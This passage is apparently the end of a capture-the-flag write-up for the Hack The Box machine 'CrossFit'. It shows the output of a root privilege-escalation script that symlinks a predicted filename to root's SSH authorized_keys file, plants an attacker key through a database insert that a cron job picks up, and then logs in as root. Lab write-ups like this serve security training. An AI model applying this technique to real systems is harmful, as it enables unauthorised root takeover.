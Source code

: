 ### Exploit

I’ll upload the [final script](/files/crossfit-root.sh) to CrossFit and run
it:

    
    
    isaac@crossfit:/dev/shm$ ./root.sh
    [*] Writing c code to get "random" int
    [+] Got random int: 1884167658
    [*] Cleaning up code
    [+] Filename will be: /var/local/56bd8aef3ca539e098fdb7c135c31544
    [+] Created symlink to /root/.ssh/authorized_keys
    [*] Writing to DB: insert into messages(id, name, email, message) values (223, 'ssh-ed25519', 'nobody@nothing', 'AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d')
    [*] Sleeping 26 seconds until cron
    [*] Try logging in as root with SSH key
    

It worked:

    
    
    root@kali# ssh -i ~/keys/ed25519_gen root@10.10.10.208
    Linux crossfit 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Mon Sep 21 04:46:55 2020
    root@crossfit:~# 
    

[](/2021/03/20/htb-crossfit.html)


